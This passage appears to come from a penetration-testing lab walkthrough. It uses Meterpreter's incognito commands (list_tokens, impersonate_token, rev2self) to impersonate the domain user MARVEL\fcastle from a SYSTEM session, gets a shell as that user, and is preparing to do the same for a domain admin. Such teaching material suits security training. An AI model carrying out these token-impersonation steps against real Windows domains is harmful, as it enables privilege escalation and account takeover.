 We can now list the available tokens with `list_tokens -u` (`-u` for users, `-g`
for groups).

```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-2
MARVEL\fcastle
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-2

Impersonation Tokens Available
========================================
No tokens available
```

To impersonate the user `fcastle` we now simply use the `impersonate_token`
command. We need to use a double-backslash since the backslash between domain
and user name is a special character and has to be "escaped". To verify that we
really have access as `fcastle` we can open a shell and use `whoami` again.

```
meterpreter > impersonate_token MARVEL\\fcastle
[+] Delegation token available
[+] Successfully impersonated user MARVEL\fcastle
meterpreter > shell
Process 6564 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19045.6093]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
marvel\fcastle
```

This was the proof-of-principle for a low-privilege account. Now we do the same
for a domain admin account. To begin with, we cancel the shell and go back to
the status before we invoked `incognito`:

```
C:\Windows\system32>whoami
whoami
marvel\fcastle

C:\Windows\system32>^C
Terminate channel 3? [y/N]  y
meterpreter > rev2self
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
